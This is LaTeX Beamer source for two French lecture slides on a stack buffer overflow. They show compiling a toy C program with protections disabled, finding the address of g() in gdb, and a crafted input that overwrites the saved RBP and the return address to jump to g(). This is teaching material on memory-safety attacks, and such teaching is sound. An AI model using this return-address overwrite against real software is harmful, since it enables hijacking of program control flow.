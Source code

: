 \documentclass{beamer}
\begin{document}
\begin{frame}[fragile]
\frametitle{Trouver l'adresse de \texttt{g()}}

On compile sans protection de pile et sans randomisation des adresses :

\begin{lstlisting}[language=bash]
$ gcc -fno-stack-protector -no-pie -g debordement-appel.c
$ gdb a.out
(gdb) disassemble g
Dump of assembler code for function g:
   0x0000000000401176 <+0>:  endbr64
   0x000000000040117a <+4>:  push   rbp
   0x000000000040117b <+5>:  mov    rbp,rsp
   ...
   0x000000000040118f <+25>: ret
End of assembler dump.
\end{lstlisting}

L'adresse de \texttt{g} est \texttt{0x401176}.

\end{frame}


\begin{frame}[fragile]
\frametitle{La pile dans \texttt{bonjour()}}

\begin{center}
\end{center}

Le prénom donné est : \texttt{"jocelinebbbbbbbb\textbackslash x76\textbackslash x11\textbackslash x40"}
\begin{itemize}
\item 8 caractères ``joceline'' remplissent \texttt{nom}
\item 8 caractères ``b'' écrasent \texttt{savedRBP}
\item \texttt{0x76 0x11 0x40} = adresse de \texttt{g()}
\end{itemize}

\end{frame}
\end{document}
